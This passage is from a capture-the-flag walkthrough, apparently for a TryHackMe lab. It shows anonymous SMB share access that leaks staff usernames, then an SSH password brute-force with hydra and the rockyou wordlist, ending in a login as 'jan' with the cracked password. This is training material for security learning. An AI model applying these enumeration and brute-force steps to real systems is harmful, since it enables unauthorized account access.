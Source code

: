 Let's login it

```shell
root@cyb3rhoL1c:~# smbclient //10.10.174.50/Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018
get
                14318640 blocks of size 1024. 11093944 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit
root@cyb3rhoL1c:~# cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
root@cyb3rhoL1c:~# 

```

Now we got some the name of user `jan` and `kay`

just `submit it`

(note:this is another way,after `enum4linux` scanning you can also see this users)

Now We need to find the password for `jan`
let's bruteforce with hydra for ssh

`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.174.50`

I found ssh password for jan `armando`
let's login ssh

```shell
root@cyb3rhoL1c:~/Desktop/TryHackMe# ssh jan@10.10.174.50
The authenticity of host '10.10.174.50 (10.10.174.50)' can't be established.
ECDSA key fingerprint is SHA256:+Fk53V/LB+2pn4OPL7GN/DuVHVvO0lT9N4W5ifchySQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.174.50' (ECDSA) to the list of known hosts.
jan@10.10.174.50's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
```